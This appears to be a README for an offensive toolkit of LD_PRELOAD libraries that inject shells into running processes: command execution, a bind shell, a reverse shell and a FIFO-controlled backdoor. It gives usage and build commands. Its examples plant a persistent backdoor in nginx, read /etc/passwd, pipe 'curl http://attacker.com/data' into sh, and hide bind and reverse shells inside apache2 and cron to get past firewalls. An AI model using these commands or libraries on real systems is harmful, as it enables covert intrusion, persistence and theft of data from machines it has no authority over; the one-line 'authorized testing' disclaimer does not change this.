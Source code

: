 # Preload Shell Libraries

This directory contains various preload libraries that provide shell access through different methods. These libraries use the `LD_PRELOAD` mechanism to inject functionality into target processes.

## Available Libraries

### shell-env
Executes a command from an environment variable.

**Usage:**
```bash
EXEC_CMD="id" LD_PRELOAD=./shell-env.so <target_program>
EXEC_CMD="uname -a; whoami" LD_PRELOAD=./shell-env.so ls
```

**Features:**
- Reads command from `EXEC_CMD` environment variable
- Changes directory to `/`
- Replaces the process with shell executing the command

### shell-helper
Executes a script from `/dev/shm/helper.sh`.

**Usage:**
```bash
# First create the script
echo '#!/bin/sh' > /dev/shm/helper.sh
echo 'id' >> /dev/shm/helper.sh
chmod +x /dev/shm/helper.sh

# Then run
LD_PRELOAD=./shell-helper.so <target_program>
```

**Features:**
- Executes fixed script at `/dev/shm/helper.sh`
- Useful when environment variables cannot be set

### shell-bind
Opens a bind shell on a specified port.

**Usage:**
```bash
# Default port 4444
LD_PRELOAD=./shell-bind.so <target_program>

# Custom port
BIND_PORT=8080 LD_PRELOAD=./shell-bind.so <target_program>

# Connect from another terminal
nc localhost 4444
```

**Features:**
- Binds to specified port (default: 4444)
- Accepts one connection
- Redirects stdin/stdout/stderr to socket
- Replaces process with `/bin/sh`

### shell-reverse
Connects back to a remote host (reverse shell).

**Usage:**
```bash
# Start listener on remote host
nc -l -p 4444

# Connect back
RHOST=192.168.1.100 LD_PRELOAD=./shell-reverse.so <target_program>
RHOST=192.168.1.100 RPORT=8080 LD_PRELOAD=./shell-reverse.so <target_program>
```

**Features:**
- Connects to `RHOST:RPORT` (default port: 4444)
- Redirects stdin/stdout/stderr to socket
- Requires `RHOST` environment variable

### shell-fifo
Creates a FIFO for command execution.

**Usage:**
```bash
# Terminal 1 - Start the shell
LD_PRELOAD=./shell-fifo.so sleep 3600

# Terminal 2 - Send commands
echo "id" > /tmp/cmd.fifo
echo "uname -a" > /tmp/cmd.fifo
echo "ls -la" > /tmp/cmd.fifo

# Custom FIFO path
FIFO_PATH=/tmp/myfifo LD_PRELOAD=./shell-fifo.so cat
```

**Features:**
- Creates FIFO at specified path (default: `/tmp/cmd.fifo`)
- Shell reads commands from FIFO
- Multiple commands can be sent sequentially
- Output appears in the terminal where the preloaded program runs

## Building

These libraries are built as part of the preload build system:

```bash
# Build all shell libraries for all architectures
./build-preload

# Build specific library
./build-preload shell-env

# Build for specific architecture
./build-preload shell-bind --arch x86_64

# Output location
ls output-preload/glibc/x86_64/
```

## Security Notes

- Environment variables prevent recursive loading
- Libraries operate silently (no error messages in simplified version)
- These are intended for authorized security testing only

## Troubleshooting

**Library loads multiple times:**
- Each library sets an environment variable to prevent recursion
- Check for `SHELL_*_ACTIVE` variables

**No output visible:**
- Output goes to the original process's stdout/stderr
- For shell-fifo, make sure to send commands to the FIFO
- Use programs that don't produce their own output (like `sleep`, `cat`)

**Silent operation:**
- Simplified libraries don't show error messages
- Check return codes or use strace for debugging

## Examples

### Persistent backdoor with shell-fifo
```bash
# Start a long-running process with shell-fifo
LD_PRELOAD=./shell-fifo.so nginx &

# Control it anytime
echo "cat /etc/passwd" > /tmp/cmd.fifo
```

```bash
# Run single command and exit
EXEC_CMD="curl http://attacker.com/data | sh" LD_PRELOAD=./shell-env.so date
```

```bash
# Bind shell for LAN access
BIND_PORT=31337 LD_PRELOAD=./shell-bind.so apache2

# Reverse shell through firewall
RHOST=attacker.com RPORT=443 LD_PRELOAD=./shell-reverse.so cron
```
